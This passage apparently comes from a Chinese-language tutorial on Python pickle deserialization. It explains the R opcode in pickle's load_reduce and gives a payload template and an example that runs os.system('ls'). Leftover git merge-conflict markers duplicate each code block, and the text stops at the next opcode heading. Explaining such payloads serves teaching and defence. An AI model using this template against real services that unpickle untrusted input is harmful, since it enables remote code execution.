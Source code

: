 ##### `R` 操作符

源码

<<<<<<< HEAD
```plain
def load_reduce(self):
    stack = self.stack
    args = stack.pop()#栈顶的元组出栈,把元组赋值给args
=======
```bash
def load_reduce(self):
    stack = self.stack
    args = stack.pop()#栈顶的元组出栈，把元组赋值给 args
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    func = stack[-1]
    #stack[-1]是出栈操作,索引值为-1代表最后一个进入列表的元素(反向索引)
    stack[-1] = func(*args)#func出栈,func的返回值进栈
    #'*'操作符用作解包,把元组里的元素作为未知参数传递给func
```

用 R 操作符构造的 payload 模板

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
c<module>
<callable>
(<args>
tR.
```

e.g.

<<<<<<< HEAD
```plain
cos
system #用c操作符引入os.system,也就是把os.system压入栈
(S'ls' #先把MARK压入栈,再把ls压入栈
tR. #t操作符把ls出栈,元组(ls)入栈
    #R操作符把元组作为os.system的参数传入并执行
=======
```bash
cos
system #用 c 操作符引入 os.system，也就是把 os.system 压入栈
(S'ls' #先把 MARK 压入栈，再把 ls 压入栈
tR. #t 操作符把 ls 出栈，元组 (ls) 入栈
    #R 操作符把元组作为 os.system 的参数传入并执行
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
<=> __import__('os').system(*('ls',))
```

##### `o` 操作符
